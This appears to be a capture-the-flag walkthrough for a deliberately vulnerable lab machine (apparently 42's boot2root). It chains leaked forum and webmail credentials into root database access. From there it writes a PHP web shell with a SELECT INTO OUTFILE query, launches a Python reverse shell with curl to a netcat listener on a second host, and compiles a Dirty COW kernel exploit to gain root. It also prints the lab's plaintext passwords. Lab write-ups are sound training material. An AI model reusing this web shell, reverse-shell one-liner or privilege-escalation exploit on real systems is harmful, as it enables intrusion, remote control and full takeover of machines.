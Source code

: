 #### Credentials Of User 'lmezard'

```
https://192.168.100.16/forum/index.php?id=6
```
look there you will find !q\\]Ej?\*5K5cy\*AJ

#### Use 'lmezard' Credentials

```
https://192.168.100.16/forum/index.php?mode=login
```

#### Get More Info about 'lmezard'

```
https://192.168.100.16/forum/index.php?mode=user&action=edit_profile
```

email: *laurie@borntosec.net*

#### Use the email to log in to the webmail with the current password

```
https://192.168.100.16/webmail/src/login.php
```

#### In Webmail,Navigate to

```
https://192.168.100.16/webmail/src/webmail.php
```

And go DB Access

- username: root
- password:Fg-'kKXBj87E:aJ$

#### Log in to phpMyAdmin using root credentials and insert a PHP file for backdoor placement.

```sql
select "<?php echo 'Command: ' . $_POST['cmd'] . '\n'; system($_POST['cmd']);?>" into outfile "/var/www/forum/templates_c/backdoor.php";
```

#### Reverse shell and Listener

```sh
nc -l -vv -p 2000
```

```sh
curl "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);' "
```

#### Compile and Execute

```sh
echo '
c source code
' > test.c
gcc -pthread ./scripts/40839_mod.c -o dirty -lcrypt
./dirty 1234
```

#### Congratulation
now you can use *root* and *1234* to login
